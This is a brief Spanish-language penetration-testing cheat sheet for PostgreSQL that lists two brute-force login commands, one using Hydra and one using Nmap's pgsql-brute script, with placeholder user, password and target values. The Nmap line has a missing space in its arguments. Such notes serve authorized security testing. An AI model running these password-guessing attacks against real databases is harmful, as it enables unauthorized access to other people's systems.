 # PostgreSQL

### Ataque por fuerza bruta 
#### Hydra
```
hydra -L USERFILE  -P PASSFILE IP postgres
```
### Nmap Script
```
nmap -p 5432 --script pgsql-brute --script-argsuserdb=users.txt,passdb=pass.txt IP
```

